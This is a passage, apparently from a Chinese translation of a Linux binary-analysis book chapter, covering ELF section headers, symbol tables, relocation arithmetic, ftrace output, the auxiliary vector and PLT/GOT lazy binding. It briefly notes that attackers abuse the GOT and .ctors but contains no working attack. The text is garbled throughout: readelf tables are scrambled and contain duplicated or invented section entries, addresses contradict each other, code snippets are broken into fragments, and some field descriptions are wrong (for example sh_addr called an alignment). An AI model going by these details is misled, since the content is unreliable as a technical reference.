| GNU_STACK | 0x00000000 | 0x0804d000 | 0x00000000 | 0x00000018 | 0x00000018 | RW | 0x00000 |
| GNU_RELRO | 0x00000fe8 | 0x0804e000 | 0x00000000 | 0x00000108 | 0x00000108 | R | 0x00000 |

[请求解释器: `/lib/linux.so.2`]

我们可以看到可执行文件的入口点，以及我们刚刚讨论的一些不同段类型。注意两个 `PT_LOAD` 段的权限标志和对齐标志。

文本段是 `READ_EXECUTE`，数据段是 `READ_WRITE`，且两个段的对齐均为 `0x1000` 或 4096，这是 32 位可执行文件的页大小，这是为了程序加载时的对齐。

## ELF 段头

现在我们查看了程序头，是时候查看段头了。我们真的想指出两者之间的区别：段头对于执行不是必需的，但大多数 ELF 对象都具有段头。通常，这意味着可执行文件被篡改过（例如，段头被剥离，使得调试变得困难）。

每个段包含某种类型的代码或数据。正如之前提到的，每个 ELF 对象都有段，但并非所有的 ELF 对象都有段头。段头对于细粒检查正在查看的对象部分或段非常方便。事实上，段头让逆向工程变得容易得多，因为它们提供了让我们使用某些所需工具的能力。例如，如果段头被剥离，我们就无法访问诸如 `.dynsym` 段，该段包含了描述函数名和偏移的导入/导出符号。

```c
uint32_t sh_addr; // 段地址的对齐
uint32_t sh_entsize; // 段中可能包含的每个条目的的大小
} Elf32Shdr;
```

让我们再次查看一些最重要的段和段类型，同时也允许查阅 `ELF(5)` 手页和官方 ELF 规范以获取关于段的更详细信息。

### .text 段

`.text` 段是一个包含程序代码指令的程序段。在同样包含 Phdr（程序头头表）的可执行程序中，该段位于文本段节（text segment）的范围内。因为它包含了程序代码，所以它的段类型为 `SHT_PROGBITS`。

### .rodata 段

`.rodata` 段包含只读数据，例如来自 C 代码代码行的字符串，如下命令中的内容就存储在此段中：

```c
printf("Hello World!");
```

该段是只读的，因此必须存在于可执行文件的只读段中。你将在文本段节的范围内（而不是数据段节）找到 `.rodata`。由于该段是只读的，它的类型为 `SHT_PROGBITS`。

### .plt 段

过程链接表（PLT）将在在本章稍后部分详细讨论，但它包含了动态链接器调用从共享库导入的函数所需的代码。它位于文本段并包含代码，因此被标记为类型 `SHT_PROGBITS`。

### .data 段

数据段（不要与数据段节 data segment 混淆）存在于数据段节内，并包含如初始化全局变量等的数据。它包含程序变量数据，因此被标记为 `SHT_PROGBITS`。

### .bss 段

`.bss` 段包含未初始化的全局数据，作为数据段节的一部分，因此除了表示段本身的 4 字节外，它在磁盘上不占用任何空间。数据在程序加载时初始化为零，并在程序执行期间可以对其进行赋值。由于 `.bss` 段不包含实际数据，因此被标记为 `SHT_NOBITS`。

### .got.plt 段

全局偏移表（Global offset table）包含 GOT 表。它与 PLT 配合工作，提供对导入的共享库函数的访问，并在运行时由动态链接器修改。该段经常被攻击者利用，他们在堆或 `.bss` 漏洞利用中获得了指针大小的原语。我们将在本章的 ELF 动态链接部分讨论这一点，它与程序执行有关，因此被标记为类型 `SHT_PROGBITS`。

### .dynsym 段

`.dynsym` 段包含从共享库导入的动态符号信息。它包含在文本段内并被标记为 `SHT_DYNSYM`。

### .dynstr 段

`.dynstr` 段包含动态符号的字符串表，其中一系列空 结尾的字符串列出了每个符号的名字。

### .rel.* 段

重定位段包含关于 ELF 对象或进程映像部分在链接或运行时需要如何被修复或修改的信息。我们将在本章的 ELF 重定位部分讨论更多关于重定位的内容。由于重定位段包含重定位数据，因此它们被标记为类型 `SHT_REL`。

### .hash 段

`.hash` 段（有时称为 `.gnu.hash`）包含一个用于符号查找的哈希表。Linux ELF 中的符号名称查找使用以下哈希算法：

```c
uint32_t
dl_new_hash (const char *s)
{
    uint32_t h = 5381;
```

```c
for (unsigned char c = *s; c != '\0'; c = *++s) {
    h = h * 33 + c;
}

return h;
```

`h = h * 33 + c` 通常被编码为 `h = ((h << 5) + h) + c`。

### .symtab 段

`.symtab` 段包含类型为 `ElfN_Sym` 的符号信息，我们将在本章的 ELF 符号和重定位部分详细分析这些。`.symtab` 段被标记为 `SHT_SYMTAB`，因为它包含了符号信息。

### .strtab 段

`.strtab` 段包含被 `.symtab` 中的 `st_name ElfN_Sym` 结构体引用的符号字符串表。`.strtab` 段被标记为 `SHT_STRTAB`，因为它包含了字符串表。

### .shstrtab 段

`.shstrtab` 段包含一组包含每个段名称的空结尾字符串，如 `.text`、`.data` 等。该段由 ELF 文件头中的 `e_shstr` 指向 `.shstrtab` 的偏移量。该段被标记为 `SHT_STRTAB`，因为它包含了字符串表。

### .ctors 和 .dtors 段

`.ctors`（构造函数）和 `.dtors`（析构函数）段包含在程序代码 `main()` 执行之前之后执行的函数指针。这种属性有时被黑客和病毒利用以实施 `PTRACE` 技巧，以便调试器可以附加到进程上，防止程序进入 `main()`。

## 第 2 章

有很多其他的段名称和类型，但我们已经涵盖了动态链接可执行文件中常见的那些。可以看到可执行文件是如何通过 phdr 和 sh 布局的。

文本段如下：

- [`.text`]: 这是程序代码
- [`.rodata`]: 这是只读数据
- [`.hash`]: 这是哈希表
- [`.dynsym`]: 这是共享对象符号表
- [`.dynstr`]: 这是共享对象名称
- [`.plt`]: 这是过程链接表
- [`.rel.got`]: 这是重定位数据

数据段如下：

- [`.data`]: 这些是全局初始化的变量
- [`.dynamic`]: 这些是动态链接结构
- [`.got.plt`]: 这是全局偏移表
- [`.bss`]: 这些是全局未初始化的变量

让我们用 `readelf` 命令查看 `ET_REL` 文件（对象文件）段头：

```bash
ryan@alchemy:-$ gcc -c test.c
ryan@alchemy:-$ readelf -S test.o
```

以下是 12 个段头，从偏移量 `0x124` 开始：

| Nr | Name | Type | ES | Flg | Lk | Off | Al |
|---|---|---|---|---|---|---|---|
| [ 0 ] | | NULL | 00000000 | 000000 | 0 | 0 | |
| [ 1 ] | .text | PROGBITS | 00000000 | 000034 | 000034 | 00 | AX 0 4 |
| [ 2 ] | .rel.text | REL | 00000000 | 0003d0 | 000010 | 08 | 10 1 4 |
| [ 3 ] | .data | PROGBITS | 00000000 | 000068 | 000000 | 00 | WA 0 4 |
| [ 4 ] | .bss | NOBITS | 00000000 | 000068 | 000000 | 00 | WA 0 4 |

### ELF 二进制格式

```text
[ 5 ] | .comment          PROGBITS 00000000 000068
00002b               01 MS 0 1
[ 6 ] | .note.GNU-stack PROGBITS 00000000 000093
000000                               0 1
[ 7 ] | .eh_frame       PROGBITS 00000000 000094
000038               00 A 0 4
[ 8 ] | .rel_frame      REL            00000000 0000e3
000008               08 10 4
[ 9 ] | .shstrtab         STRTAB        00000000 0000cc
000057               00 0 1
[ 10] | .symtab          SYMTAB        00000000 000034
0000b0                               11 8 4
[ 11] | .strtab          STRTAB        00000000 0003b4
00001a               00 0 1
```

重定位对象（类型为 `ET_REL` 的 ELF 文件）中不存在程序头，因为 `.o` 文件是为了链接成可执行文件，而不是直接加载到内存中；因此，`readelf` 在 `test.o` 上不会产生任何结果。

我们可以看到我们讨论过的许多段，但也有一些段没有。如果我们将 `test.o` 编译为可执行文件，我们将看到添加了许多新段，包括 `.got.plt`、`.plt`、`.dynsym` 以及与其他动态链接和重定位相关的段：

```bash
ryan@alchemy:-$ gcc evil.o -o evil
ryan@alchemy:-$ readelf -S evil
```

以下是 30 个段头，从偏移量 `0x140` 开始：

| Name | Type | Addr | Off | Size | Flg Lk |
|---|---|---|---|---|---|
| [ 0 ] | NULL | 00000000 | 000000 | 000000 | 00  0 |
| [ 1 ] | .interp | PROGBITS | 0804154 | 000154 | 000013 | 00 0 1 |
| [ 2 ] | .note.ABI-tag | NOTE | 0804168 | 000168 | 000020 | 00 0 4 |
| [ 3 ] | .note.GNU.build-i | NOTE | 0804188 | 000188 | 000024 | 00 0 4 |
| [ 4 ] | .eh_frame | PROGBITS | 00000000 | 000094 | 000038 | 00 A 0 4 |
| [ 5 ] | .comment | PROGBITS | 00000000 | 000068 | 00002b | 01 MS 0 1 |
| [ 6 ] | .note.GNU-stack | PROGBITS | 00000000 | 000093 | 000000 | 00 0 1 |
| [ 7 ] | .rel_frame | REL | 00000000 | 0000e3 | 000008 | 08 10 4 |
| [ 8 ] | .shstrtab | STRTAB | 00000000 | 0000cc | 000057 | 00 0 1 |
| [ 9 ] | .symtab | SYMTAB | 00000000 | 000034 | 0000b0 | 11 8 4 |
| [ 10] | .strtab | STRTAB | 00000000 | 0003b4 | 00001a | 00 0 1 |

## 第 2 章 (续)

| 节 | 类型 | 地址 | 大小 |
| :--- | :--- | :--- | :--- |
| [ 4 ] .gnu.hash | GNU_HASH | 080481ac | 0001ac |
| 000020 | 04 | A 5 | 0 |
| [ 5 ] .dynsym | DYNSYM | 080481cc | 0001cc |
| 000060 | 10 | A 6 | 4 |
| [ 6 ] .dynstr | STRTAB | 0804822c | 00022c |
| 000052 | 00 | A 0 | 1 |
| [ 7 ] .gnu.version | VERSYM | 0804827e | 00027e |
| 00000c | 02 | A 5 | 0 |
| [ 8 ] .gnu.version_r | VERNEED | 0804828c | 00028c |
| 000020 | 00 | A 6 | 1 |
| [ 9 ] .rel.dyn | REL | 080482ac | 0002ac |
| 000008 | 08 | A 5 | 0 |
| [10] .rel.plt | REL | 080482b4 | 0002b4 |
| 000020 | 08 | A 5 | 12 |
| [11] .init | PROGBITS | 080482d4 | 0002d4 |
| 00002e | 00 | AX 0 | 0 |
| [12] .plt | PROGBITS | 08048310 | 000310 |
| 000050 | 04 | AX 0 | 16 |
| [13] .text | PROGBITS | 08048360 | 000360 |
| 00019c | 00 | AX 0 | 16 |
| [14] .fini | PROGBITS | 080484fc | 0004fc |
| 00001a | 00 | AX 0 | 4 |
| [15] .rodata | PROGBITS | 08048518 | 000518 |
| 000008 | 00 | A 0 | 4 |
| [16] .eh_frame_hdr | PROGBITS | 08048520 | 000520 |
| 000034 | 00 | A 0 | 4 |
| [17] .eh_frame | PROGBITS | 08048554 | 000554 |
| 0000c4 | 00 | A 0 | 4 |


### ELF 二进制格式

| 索引 | 名称 | 类型 | 地址 | 偏移 | 大小 | 入口大小 | 标志 | 链接 | 信息 | 对齐 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| [18] | .ctors | PROGBITS | 08049f14 | 000f14 | 000008 | 00 | WA | 0 | 0 | 4 |
| [19] | .dtors | PROGBITS | 08049f1c | 000f1c | 000008 | 00 | WA | 0 | 0 | 4 |
| [20] | .jcr | PROGBITS | 08049f24 | 000f24 | 000004 | 00 | WA | 0 | 0 | 4 |
| [21] | .dynamic | DYNAMIC | 08049f28 | 000f28 | 0000c8 | 08 | WA | 6 | 0 | 4 |
| [22] | .got | | 08049ff0 | 000ff0 | 000004 | 04 | WA | 0 | 0 | 4 |
| [23] | .got.plt | PROGBITS | 08049ff4 | 000ff4 | 00001c | 04 | WA | 0 | 0 | 4 |
| [24] | .data | PROGBITS | 0804a010 | 001010 | 000008 | 00 | WA | 0 | 0 | 4 |
| [25] | .bss | NOBITS | 0804a018 | 001018 | 000008 | 00 | WA | 0 | 0 | 4 |
| [26] | .comment | PROGBITS | 00000000 | 001018 | 00002a | 01 | MS | 0 | 0 | 1 |
| [27] | .shtab | PROGBITS | 00000000 | 001018 | 000052 | 00 | WA | 0 | 0 | 4 |
| [28] | .symtab | PROGBITS | 00000000 | 000140 | 000060 | 00 | WA | 0 | 0 | 4 |
| [29] | .strtab | PROGBITS | 00000000 | 000040 | 000060 | 00 | WA | 0 | 0 | 4 |
| [30] | .dynstr | PROGBITS | 00000000 | 000120 | 000000 | 00 | WA | 0 | 0 | 4 |
| [31] | .dynstr | PROGBITS | 00000000 | 000000 | 000000 | 00 | WA | 0 | 0 | 4 |
| [32] | .dynsym | PROGBITS | 00000000 | 000100 | 000000 | 00 | WA | 0 | 0 | 4 |
| [33] | .hash | PROGBITS | 00000000 | 000040 | 000000 | 00 | WA | 0 | 0 | 4 |
| [34] | .hashstr | PROGBITS | 00000000 | 000020 | 000000 | 00 | WA | 0 | 0 | 4 |
| [35] | .rel.dyn | PROGBITS | 00000000 | 000080 | 000000 | 00 | WA | 0 | 0 | 4 |
| [36] | .rel.plt | PROGBITS | 00000000 | 000040 | 000000 | 00 | WA | 0 | 0 | 4 |
| [37] | .note | PROGBITS | 00000000 | 000020 | 000000 | 00 | WA | 0 | 0 | 4 |
| [38] | .note | PROGBITS | 00000000 | 000020 | 000000 | 00 | WA | 0 | 0 | 4 |
| [39] | .gnu.version | PROGBITS | 00000000 | 000040 | 000000 | 00 | WA | 0 | 0 | 4 |
| [40] | .gnu.version_r | PROGBITS | 00000000 | 000040 | 000000 | 00 | WA | 0 | 0 | 4 |

### 符号表

ELF 符号表包含了符号的元数据。每个符号都描述了如函数、变量或段的实体。符号表项通常位于特定的段中。64 位系统的符号表结构如下：

```c
typedef struct {
    uint32_t st_name;
    uint8_t st_info;
    uint8_t st_other;
    uint16_t st_shx;
    uint64_t st_value;
    uint64_t st_size;
} Elf64_Sym;
```

#### st_name

`st_name` 是符号字符串表（如 `.strtab` 或 `.dynstr`）中的偏移量，用于获取符号名称。

#### st_value

`st_value` 存储符号的值。对于函数，通常是虚拟地址；对于数据，通常是偏移量。

#### st_size

`st_size` 表示符号的大小。例如，变量的大小或函数的字节数。

#### st_info

`st_info` 包含了符号的类型和绑定。

#### st_other

该字段用于存储符号的可见性。

#### st_shx

`st_shx` 是符号所属的段索引。如果值为 `SHN_NNDX`，则表示符号不属于任何段。

`st_info` 字段指定了符号类型和属性。要获取完整的类型和属性列表，请参考 ELF(5) 手册。

#### 符号类型

我们有以下符号类型：

- `ST_NOTYPE`：符号类型未指定。
- `ST_FUNC`：符号与函数或其他执行代码相关。
- `ST_OBJECT`：符号与数据对象相关。

#### 符号绑定

我们有以下符号绑定：

- `ST_LOCAL`：局部符号在其定义的对象文件中可见，例如静态声明函数。
- `ST_GLOBAL`：全局符号对所有合并的对象文件可见。一个文件的符号定义可以满足另一个文件的未定义引用。
- `ST_WEAK`：类似于全局绑定，但优先级较低，可以被另一个非 `ST_LOCAL` 标记的相同符号覆盖。

可以使用宏来打包和解包绑定和类型字段：

- `ELF32_ST_BIND(info)` 或 `ELF64_ST_BIND(info)` 从 `st_info` 值中提取绑定。
- `ELF32_ST_TYPE(info)` 或 `ELF64_ST_TYPE(info)` 从 `st_info` 值中提取类型。
- `ELF32_ST_INFO(bind, type)` 或 `ELF64_ST_INFO(bind, type)` 将绑定和类型转换为 `st_info` 值。

### ELF 二进制格式分析示例

```c
{
    printf("%d %d %d\n", a, b, c);
}

int main(void)
{
    funcl(1, 2, 3);
}
```

现在，假设我们没有上述源代码，并且想知道它编译成的二进制文件的内部工作原理，我们可以对它运行 `ftrace`。首先，让我们看看它的概要：

```
ftrace -p <pid> [-Sstve] <prog>
```

用法如下：

- `[-p]`: 通过 PID 进行跟踪
- `[-t]`: 用于对函数参数进行类型检测
- `[-s]`: 打印字符串值
- `[-v]`: 提供详细输出
- `[-e]`: 提供杂七杂要的 ELF 信息（符号、依赖项）
- `[-S]`: 显示去除了符号的函数调用
- `[-C]`: 完成控制流分析

让我们来试一下：

```
ryan@alchemy:-$ ftrace -s test
[+] Function tracing begins:
PLT_call@0x00400200__libc_start_main()
LOCAL_call@0x00403e0:_init() =
(RETURN VALUE) LOCAL_call@0x00403e0:_init() = 0
LOCAL_call@0x00405c2:funcl(0x1,0x2,0x3) // 注意传递的值
PLT_call@0x0040010:printf("%d %d %d\n") // 注意我们看到了字符串值
1 2 3
(RETURN VALUE) PLT_call@0x0040010:printf("%d %d %d\n") = 6
(RETURN VALUE) LOCAL_call@0x00405c2:funcl(0x1,0x2,0x3) = 6
LOCAL_call@0x0040470:deregister_tm_clones()
(RETURN VALUE) LOCAL_call@0x0040470:deregister_tm_clones() = 7
```

## 第二章：符号剥离与逆向分析

一个聪明的个人可能会问：如果一个二进制文件的符号表被剥离了会发生什么？没错：你可以剥离二进制文件的符号表；然而，一个动态链接的可执行文件仍然保留 `.dynsym`，但如果被剥离，会丢弃 `.symtab`，因此只有导入的库会显示。

如果一个二进制文件是静态编译的（`gcc -static`）或在没有链接 libc 的情况下（`gcc -nostdlib`），并且使用 `strip` 命令对其进行剥离，那么二进制文件将完全没有符号表，因为动态符号表已不存在了。

现在，如果我们在剥离符号之前查看 `test2`，可以看到 `0x40144` 确实是 `trace` 在使用 `-s` 标志时表现不同的地方，该标志告诉 `trace` 在没有附加符号的情况下显示每个函数调用。当使用 `-s` 标志时，`trace` 将以 `address_of_function`（函数地址）的形式显示函数名，类似于 IDA Pro 显示带有符号表引用的函数的方式。让我们看看以下没有符号表的代码：

```c
int foo(void) {
}
_start() {
  __asm("leave");
}
```

上述源代码简单地调用了 `foo()` 函数并退出。我们之所以使用 `_start()` 而不是 `main()`，是因为我们使用以下方式编译它：`gcc -nostdlib test2.c -o test2`。`-nostdlib` 标志指示链接器跳过标准 libc 链接，并仅编译代码而不做其他操作。默认入口是 `_start()`：

```
ryan@alchemy:-$ ftrace ./test2
[+] Function tracing begins:
LOCAL_call@0x0040144:foo()
(RETURN VALUE) LOCAL_call@0x0040144:foo() = 0
```

现在让我们剥离符号表并再次运行 `ftrace`：

```
ryan@alchemy:-$ strip test2
ryan@alchemy:-$ ftrace -S test2
[+] Function tracing begins:
LOCAL_call@0x0040144:sub_40144()
(RETURN VALUE) LOCAL_call@0x0040144:sub_40144() = 0
```

我们注意到 `foo()` 函数被 `sub_40144()` 替换了，这表明函数是在地址 `0x40144` 调用的。现在，如果我们在剥离符号之前查看 `test2`，可以看到 `foo()` 位置：

```
ryan@alchemy:-$ objdump -d test2
test2:      file format elf64-x86-64
Disassembly of section .text:
0000000000000014 <foo>:
400144:      55              push %rbp
400145:      48 89 e5      mov %rsp,%rbp
400148:      5d              pop %rbp
400149:      c3              retq
000000000000001a <_start>:
40014a:      55              push %rbp
40014b:      48 89 e5      mov %rsp,%rbp
40014e:      e8 f1 ff ff    callq 0x40144 <foo>
```

事实上，为了让你了解符号对逆向工程师有多帮助，让我们看看没有符号的 `test2`，这使得分析控制流变得繁琐并需要反汇编器来完成。

让我们来看一下源代码：

```c
_start()
{
    foo();
}
```

我们看到它调用了 `foo()` 函数。然而，`foo()` 函数并没有直接位于该源；因此，在编译时，会创建一个重定位项，以便后续满足符号引用：

```
$ objdump -d obj1.o
obj1.o: file format elf32-i386
Disassembly of section .text:
0:	55              push   %ebp
1:	89 e5          mov %esp,%ebp
3:	83 ec 08       sub $0x8,%esp
6:	e8 fc ff ff    call 7 <func+0x7>
b:	c9              leave
c:	c3              ret
```

如我们所示，对 `foo()` 的调用被突出显示了，它包含了值 `0xfffffffc`，这是隐式加数。注意，数字 7 是要修复的重定位目标的偏移量。当 `obj1.o`（调用了位于 `obj2.o` 中的 `foo()`）与 `obj2.o` 链接成可执行文件时，需要修改重定位项。链接器随后会修复偏移 7 处的 4 个字节，使其在 `foo()` 被安置在可执行文件中后包含 `foo()` 函数的真实偏移量。

> 指令 `e8 fc ff ff` 包含隐式加数，在本节中记住这一点：值 `0xfffffffc` 是 `-(4)` 或 `-(sizeof(uint32_t))`。在 32 位系统中，一个字是 4 字节，这正是该重定位目标的大小。

```
$ readelf -r obj1.o
偏移 0x394 处的重定位段 '.rel.text' 包含 1 条目：
```

| Offset | Info | Type | Sym.Value | Sym. Name |
| :--- | :--- | :--- | :--- | :--- |
| 00000007 | 00000902 | R_386_PC32 | 00000000 | foo |

如我们所示，偏移 7 处的重定位字段由重定位项的 `r_offset` 字段指定。

- `R_386_PC32` 是重定位类型。要理解所有这些类型，请阅读 ELF 规范。每种重定位类型对修改的重定位目标都需要不同的计算。`R_386_PC32` 使用 `S + A - P` 修改目标。
- `S` 是位于重定位项中的索引的符号值。
- `A` 是在重定位项找到的加数。
- `P` 是被重定位存储单元的位置（段偏移量或地址）（使用 `r_offset` 计算）。

让我们在 32 位系统上编译 `obj1.o` 和 `obj2.o` 后，查看可执行文件的最终输出：

```
$ gcc -nostdlib obj1.o obj2.o -o relocated
$ objdump -d relocated
```

```
test: file format elf32-i386
section .text 段的反汇编：
08480d8 <func>:
08480d8: 55              push %ebp
08480d9: 89 e5          mov %esp,%ebp
08480db: 83 ec 08      sub $0x8,%esp
08480de: e8 05 00 00 00  call 08480e8 <func>
08480e3: c9              leave
08480e4: c3              ret
08480e5: 90              nop
08480e6: 90              nop
08480e7: 90              nop
08480e8 <func>:
08480e8: 55              push %ebp
08480e9: 89 e5          mov %esp,%ebp
08480eb: 5d              pop %ebp
08480ec: c3              ret
```

我们看到 `0x80408de` 处的调用指令（重定位目标）已被 32 位偏移值 `5` 修改，它指向 `foo()`。值 `5` 是 `R_386_PC32` 重定位操作的结果：

```
S + A - P: 0x80408e8 + 0xfffffffc - 0x80480df = 5
```

如果是有符号整数，`0xfffffffc` 等于 `-4`，该计算也可以看作：

```
0x80408e8 - 0x80408df - sizeof(uint32_t)
```

要计算进入虚拟地址的偏移量，请使用以下计算：

```
address_of_call + offset + 5 (其中 5 是调用指令的长度)
```


在这种情况下，它是 `0x80408de + 5 + 5 = 0x80408e8`。

> 注意此计算，因为它非常重要，并且在经常进行地址偏移计算时可以使用它。

地址也可以通过以下计算计算为偏移量：

```
address_of_call - offset - 5 (其中 5 是调用指令的长度)
```

### ELF 二进制格式

```c
/* symbol table */
symtab = (Elf32_Sym*) obj.shdr[obj.i].sh_link;
```

```c
/* symbol we are applying relocation to */
symbol = &symtab[ELF32_R_SYM(rel->r_info)];
```

```c
/* section to modify */
TargetSection = &obj.shdr[obj.shdr[i].sh_info];
TargetIndex = obj.shdr[i].sh_info;
```

```c
/* target location */
TargetAddr = TargetSection->sh_addr + rel->r_offset;
```

```c
/* pointer to relocation target */
RelocPtr = (Elf32_Addr*) obj.section[TargetIndex] + rel->r_offset;
```

```c
/* relocation value */
RelVal = symbol->st_value;
RelVal += obj.shdr[symbol->st_shndx].sh_addr;
```

```c
printf("0x%08x %%s: 0x%08x\n", RelVal, &StringTable[symbol->st_name], TargetAddr);
```

```c
switch (ELF32_R_TYPE(rel->r_info))
{
    /* R_386_PC32 2 word32 S + A - P */
    case R_386_PC32:
        *RelocPtr += RelVal;
        *RelocPtr -= TargetAddr;
        break;

    /* R_386_32 1 word32 S + A */
    case R_386_32:
        *RelocPtr += RelVal;
        break;
}
```

如前面的代码所示，`RelocPtr` 指向的重定位目标是由重定位类型所请求的操作（例如 `R_386_32`）修改的。

虽然可重定位代码二进制注入是重定位背后思想的一个良好示例，但它并不是链接器如何结合多个对象文件执行该操作的完美示例。尽管如此，它仍然保留了重定位操作的基本思想和应用。稍后我们将讨论共享库（`ET_DYN`）注入，这会将我们引入动态链接的主题。

### ELF 动态链接

在过去，一切都是静态链接的。如果一个程序使用了外部库函数，整个库都会被直接编译到可执行文件中。ELF 支持动态链接，这是一种处理库的高效率方法。

当程序被加载到内存中时，动态链接器还会加载并绑定处理地址空间所需的共享库。动态链接的主题在这一章节的人中很少被理解，它是一个相对复杂的过程，并且在底层看起来像施魔法一样。我们将揭开它的复杂性，揭示它的工作原理，以及它如何可以被攻击者滥用。

共享库被编译为位置无关的 `code`，因此可以很容易地重定位到进程地址空间中。共享库是一个动态 ELF 对象。如果你查看 `readelf -h lib.so`，你会发现 `e_type`（ELF 文件类型）被称为 `ET_DYN`。动态对象与可执行文件非常相似。它们通常不具有 `PT_INTERP` 段，因为它们是由程序解释器加载的，因此不会主动调用程序解释器。

当共享库被加载到进程地址空间时，它必须满足任何引用其他库的重定位。动态链接器必须修改可执行文件的 GOT（全局偏移表，位于 `.got.plt` 段），这是一个初始位于数据段的地址表。它位于数据段是因为它是可写的（至少作为一种安全特性的“只读重定位”是允许的）。动态链接器用解析后的共享库地址修补 GOT。我们很快就会解释延迟链接的过程。

### 辅助向量

当程序通过 `sys_execve()` 系统调用被加载到内存中时，可执行文件会被映射进来并赋予一个栈（以及其他内容）。该进程地址空间的栈以非常特定的方式设置，以便向动态链接器传递信息。这种特定的设置和信息安排被称为辅助向量（auxiliary vector 或 auxv）。栈的底部（由于栈在 x86 架构上向下生长，它是最高的内存地址）加载了以下信息：

| 辅助向量 |
|---|
| environ |
| argv |
| Stack |↓ |
| [argc][envp][auxiliary][.ascii data for argv/envp] |

辅助向量（或 auxv）是一系列 `Elf_auxiliary_t` 结构体。

```c
typedef struct {
    uint64_t a_type;      /* Entry type */
    union {
        uint64_t a_val;      /* Integer value */
        char a_un[];
    }
} Elf64_aux_t;
```

`a_type` 描述 auxv 条目类型，`a_val` 提供其值。以下是动态链接器需要的最重要的条目类型：

```c
#define AT_EXECFD 2      /* File descriptor of program */
#define AT_PHDR   3      /* Program headers for program */
#define AT_PHENT  4      /* Size of program header entry */
#define AT_PHNUM  5      /* Number of program headers */
#define AT_PAGESZ 6      /* System page size */
#define AT_ENTRY  9      /* Entry point of program */
#define AT_UID    11     /* Real uid */
```

动态链接器从栈中检索信息。链接器必须知道程序头在哪里、程序的入口点等。

### 学习 PLT/GOT

让我们来看一个对 libc 的调用。我们将使用 32 位可执行文件，因为没有使用相对寻址。

```
objdump -d test
...
00048360 <gets@plt>:
    call   Qx004a00
...
```

地址 `0x048360` 对应 `gets()` 的 PLT 条目。如前面的反汇编输出所示，有一个指向 `0x004a00` 的间接跳转。这是一个 GOT（全局偏移表）条目，存储了 libc 库中 `gets()` 函数的实际地址。

然而，第一次调用函数时，其地址尚未被动态链接器解析（当使用默认行为延迟链接时）。延迟链接意味着动态链接器不在加载时解析所有函数，而是在调用时进行解析，这通过 `.plt` 和 `.got` 段实现。这种行为可以通过环境变量 `LD_BIND_NOW` 强制更改，使得所有动态链接都在在程序加载时完成。延迟链接提高了加载时的性能，这就是为什么它是默认行为，但如果链接错误在程序运行一段时间后才出现，可能会导致不可预测的问题。我在这些年里确实经历过这种情况。

让我们来看 `fgets()` 的重定位项：

```bash
$ readelf -r test
```

| Offset | Info | SymValue | SymName |
| --- | --- | --- | --- |
| 0804a000 | 00000107 | R_386_JUMP_SLOT | 00000000 | fgets |

> `R_386_JUMP_SLOT` 是用于 PLT/GOT 条目的重定位类型。
> 在 x86_64 上，它被称为 `R_X86_64_JUMP_SLOT`。

注意重定位偏移量为 `0x804a000`，这与 `fgets()` PLT 跳转的地址相同。假设 `fgets()` 是第一次被调用，动态链接器已经解析了 `fgets()` 的地址，并将其值放入 `fgets` 的 GOT 条目中。

让我们看看测试程序中的 GOT：

```
8049ff4 <GLOBAL_OFFSET_TABLE_>:
8049ff4:    28 9f 04 08 00 00    sub    %bl,0x804(%edi)
8049ff0:    00 00              add    %al,(eax)
8049ffc:    00 00              add    %al,(eax)
8049ffe:    00 00              add    %al,(eax)
804a000:   66 83 04 08 86    addw    %0x76,%eax,%ecx,1
804a005:   83 04 08 86    addl    %xffffff86,%eax,%ecx,1)
804a009:   83 04 08 96    addl    %xffffff96,%eax,%ecx,1)
804a00d:   83               byte 0x83
804a00e:   04 08              add    %0x08,%al
```

地址 `0x8048366` 在代码中被高亮，位于 GOT 的 `0x804a000` 。记住小端序会反转字节顺序，因此它显示为 `66 83 04 08`。这个地址并不是 `fgets()` 函数的地址，因为它尚未被链接器解析，而是指向 `fgets()` 的 PLT 条目。让我们再次查看 `fgets()` 的 PLT 条目：

```
8048360 <fgets@plt>:
8048360:   ff 25 00 a0 04 08    jmp    *0x804a000
8048366:   68 00 00 00 00    push   $0x0
804836b:   e9 00 ff ff    jmp    8048350 <init+0x34>
```

因此，`jump *0x804a000` 跳转到 `0x8048366` 内部包含的地址，即 `push $0x0`。该指令有一个目的，将 `fgets()` 的 GOT 条目推入栈中。`fgets()` 的 GOT 偏移量为 `0x0`，对应于预留给共享库符号值的第一个 GOT 条目，这实际上是第四个 GOT 条目，`GOT[3]`。换句话说，共享库地址不是从 `GOT[0]` 开始填充，而是从 `GOT[3]`（第四个条目）开始，因为前三个被留用于其他用途。

- 以下 GOT 偏移量的说明：
- `GOT[0]` 包含一个指向可执行文件动态段的地址，动态链接器用它提取与动态链接相关的信息。
- `GOT[1]` 包含 *link_map* 结构的地址，动态链接器用它解析符号。
- `GOT[2]` 包含动态链接器 `dl_runtime_resolve()` 函数的地址，该函数用于解析共享库函数的实际地址。


`fgets()` PLT 存根的最后一条指令是跳转 `*048350`。此地址指向每个可执行文件中第一个 PLT 条目，被称为 PLT-0。

我们可执行文件的 PLT-0 包含以下代码：

```
8048350:               ff 35 f8 9f 04 08      pushl 0x8049ff8
8048356:               ff 25 c6 9f 04 08      jmp *0x8049ffc
804835c:               00 00                  add %al, (%eax)
```

第一个 `push` 指令将第二个 GOT 条目 `GOT[1]` 的地址推入栈中，如前所述，它包含指向 *link_map* 结构的地址。

`jump *0x8049ffc` 执行间接跳转到第三个 GOT 条目 `GOT[2]`，它包含动态链接器 `dl_runtime_resolve()` 函数的地址，从而将控制权交给动态链接器并解析 `fgets()` 的地址。一旦 `fgets()` 被解析，未来对 `fgets()` PLT 条目的所有调用将跳转到 `fgets()` 代码本身，而不是跳回 PLT 并通过延迟绑定过程。

以下是我们刚刚涵盖的内容总结：

1. 调用 `fgets@PLT`（调用 `fgets` 函数）。
2. PLT 代码对 GOT 中的地址执行间接 `jmp`。
3. GOT 条目包含在 `push` 指令处跳回 PLT 的地址。
4. `push $0x` 指令将 `fgets()` GOT 条目的偏移量推入栈。
5. 最后的 fgets PLT 指令跳转到 PLT-0 代码。
6. PLT-0 的第一条指令将 `GOT[1]` 的地址推入栈，该地址包含指向 `fgets` 的 *link_map* 结构偏移量。
7. 动态链接器使用 `GOT[2]` 中的地址调用 `dl_runtime_resolve()` 函数，解析 `fgets()` 的地址。一旦 `fgets()` 被解析，未来对 `fgets()` PLT 条目的所有调用将跳转到 `fgets()` 代码本身，而不是跳回 PLT 并通过延迟绑定过程。

### 编写 ELF 解析器

